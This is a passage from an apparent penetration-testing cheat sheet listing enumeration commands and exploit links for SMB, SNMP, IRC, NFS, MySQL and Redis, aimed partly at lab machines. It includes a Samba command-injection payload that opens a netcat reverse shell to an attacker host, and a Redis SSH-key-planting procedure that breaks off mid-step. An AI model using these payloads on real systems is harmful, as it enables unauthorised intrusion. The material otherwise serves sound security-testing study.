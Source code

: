 ```text
    smbclient -U "username%password" //192.168.0.116/sharename
    smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash" 
    
Checklist :
    * Samba symlink directory traversal attack
```

**SMB Exploits :**

* Samba "username map script" Command Execution - CVE-2007-2447
  * Version **3.0.20** through **3.0.25rc3**
  * Samba-usermap-exploit.py - [https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)
* Eternal Blue - CVE-2017-0144
  * SMB v1 in Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016
  * [https://github.com/adithyan-ak/MS17-010-Manual-Exploit](https://github.com/adithyan-ak/MS17-010-Manual-Exploit)
* SambaCry - CVE-2017-7494
  * **4.5.9** version and before
  * [https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)
* 
**SNMP \(161\)** 

* ```
  snmpwalk -c public -v1 10.0.0.0
  snmpcheck -t 192.168.1.X -c public
  onesixtyone -c names -i hosts
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
  snmpenum -t 192.168.1.X
  ```

**IRC \(194,6667,6660-7000\)**

* nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 irked.htb
* \*\*\*\*[**https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor**](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) **\(exploit code\)**

**NFS \(2049\)**

* showmount -e 10.1.1.27
* mkdir /mnt/nfs
* mount -t nfs 192.168.2.4:/nfspath-shown /mnt/nfs
* Permission Denied ? \([https://blog.christophetd.fr/write-up-vulnix/](https://blog.christophetd.fr/write-up-vulnix/)\)

**MYSQL \(3306\)**

* nmap -sV -Pn -vv 10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122

**Redis \(6379\)**

In the output of config get \* you could find the home of the redis user \(usually /var/lib/redis or /home/redis/.ssh\), and knowing this you know where you can write the authenticated\_users file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it: 

1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`
2. Write the public key to a file : `(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt`
3. Import the file into redis : `cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit` 
  ```